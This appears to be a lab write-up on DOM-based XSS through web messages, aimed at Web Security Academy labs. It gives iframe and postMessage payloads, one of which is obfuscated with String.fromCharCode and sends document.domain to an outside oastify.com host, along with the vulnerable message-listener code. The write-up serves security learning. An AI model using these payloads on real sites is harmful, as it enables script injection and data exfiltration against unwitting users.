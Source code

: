 * This payload can be used in the Browser's Console to test. (The pseudo javascript protocol is used here as the data is inserted in href.)

```javascript
postMessage('javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,102,52,107,51,49,118,108,99,57,103,120,53,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))//http:')
```

Final Payload:  (Use this in Exploit Server)

```javascript
<iframe src="https://0ac6000c045b941d800f44e400e9009d.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,98,114,54,122,119,122,110,110,99,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))//http:','*')">
```

<br><br><br>


### Source - Web Messages JSON.parse()

* There is a client-side script on the application that has an event listener that is listening for a web message.  It is possible to submit crafted input which will be included in the “src” attribute of an \<iframe\>.  This is essentially the “location.href” sink.  We can use a JavaScript pseudo-protocol payload here – javascript:print()

   * Payload: 

```html
<iframe src=https://VULNERABLE-APPLICATION.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

<br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
</script>
```
